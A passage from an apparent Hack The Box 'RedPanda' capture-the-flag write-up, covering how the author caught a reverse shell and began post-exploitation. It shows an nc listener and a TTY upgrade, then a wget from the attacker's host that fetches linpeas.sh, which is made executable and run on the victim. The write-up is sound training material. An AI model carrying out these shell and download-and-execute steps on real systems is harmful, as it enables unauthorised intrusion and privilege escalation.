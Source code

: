 4. Upload the Reverse shell payload at the victim's machine:
![rce1](post/RedPanda_HTB/imgs/RedPanda/8.JPG)

5. Make sure the payload is stored there.
![rce2](post/RedPanda_HTB/imgs/RedPanda/9.png)

So, It is uploaded successfully!

6. Give the payload the permissions to be executed:
![rce3](post/RedPanda_HTB/imgs/RedPanda/10.png)

7. Make sure it has the execution permissions:
![rce4](post/RedPanda_HTB/imgs/RedPanda/11.png)

8. Run the payload:
![rce5](post/RedPanda_HTB/imgs/RedPanda/12.png)

9. Lastly, Recieve the Reverse Shell:
![rce6](post/RedPanda_HTB/imgs/RedPanda/13.png)

Then, We spawn **TTY** and make our Revshell as **interactive** as possible.
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
woodenk@redpanda:/tmp/hsperfdata_woodenk$ ^Z
zsh: suspended  nc -nlvp 4444          
└─$  stty raw -echo ; fg 
[1]  + continued  nc -nlvp 4444
woodenk@redpanda:/tmp/hsperfdata_woodenk$
woodenk@redpanda:/tmp/hsperfdata_woodenk$ export TERM=xterm
```

Now, You have the most interactive shell you can have with auto-complete and no interruptions.

Back to our mission, Let's go and grap the user.txt.

```bash
woodenk@redpanda:/home/woodenk$ cat user.txt
74e9066ca96ac03b9eXXXXXXXXXXXXX
```

## Post-Exploitation

### linpeas.sh

Firstly, We initialize a Python server in order to send **linpeas.sh** to the victim machine.

```bash
$ python3 -m http.server 9000
Serving HTTP on 0.0.0.0 port 9000 (http://0.0.0.0:9000/) ...
```

Then, At the victim machine we go the **/tmp** folder and download the script.

```bash
woodenk@redpanda:/tmp/hsperfdata_woodenk$ wget http://10.10.16.34:9000/linpeas.sh
--2022-11-15 18:12:02--  http://10.10.16.34:9000/linpeas.sh
Connecting to 10.10.16.34:9000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 827827 (808K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh          100%[===================>] 808.42K   240KB/s    in 3.4s    

2022-11-15 18:12:06 (240 KB/s) - ‘linpeas.sh’ saved [827827/827827]
woodenk@redpanda:/tmp/hsperfdata_woodenk$ chmod +x linpeas.sh 
woodenk@redpanda:/tmp/hsperfdata_woodenk$ ./linpeas.sh
```